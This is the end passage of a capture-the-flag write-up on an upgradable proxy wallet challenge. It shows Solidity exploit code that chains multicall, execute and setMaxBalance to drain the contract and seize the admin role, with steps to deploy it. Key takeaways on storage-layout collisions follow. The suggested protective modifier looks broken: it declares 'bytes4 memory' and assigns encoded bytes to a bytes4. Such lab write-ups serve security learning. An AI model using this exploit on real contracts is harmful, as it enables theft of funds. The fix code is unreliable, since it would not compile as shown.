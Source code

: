 ```solidity
        proxy.multicall{value:0.001 ether}(main_data);
        proxy.execute(player,0.002 ether,"");
        uint256 Player_Address=uint256(uint160(player));
        proxy.setMaxBalance(Player_Address);
        require(proxy.admin()==player, "Exploit Failed");
    }
}


```

Deploy this contract and call the exploit function by sending `0.001 ether` or `1000000000000000 wei`. Once the call is done the challenge will be solved.

That's it for this challenge see you in the next challenge.

If you are a beginner to blockchain and understanding this challenge, it's a really great thing. Be proud of yourself.

### Key Takeaways

Whenever we implement upgradable contracts, we need to be very careful while designing the storage layout. The logic contract and state variables contract should have the same storage layout. In this challenge, a major part of the exploit was due to the storage layout.

In order to safeguard the `multicall`, we need to write a modifier that handles the inner call to `multicall`.

```solidity

modifier Handle_Deposit(address _depositer,bytes[] _calldata){
    bytes4 memory data = abi.encodeWithSelector(this.multicall.selector);
    for(uint i=0;i<_calldata.length;i++){
        if(keccak256(abi.encodePacked(bytes4(_calldata[i])))==keccak256(abi.encodePacked(data))){
            revert("Calling multicall is not allowed here");
        }
    }
    _;
}

```

<p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>
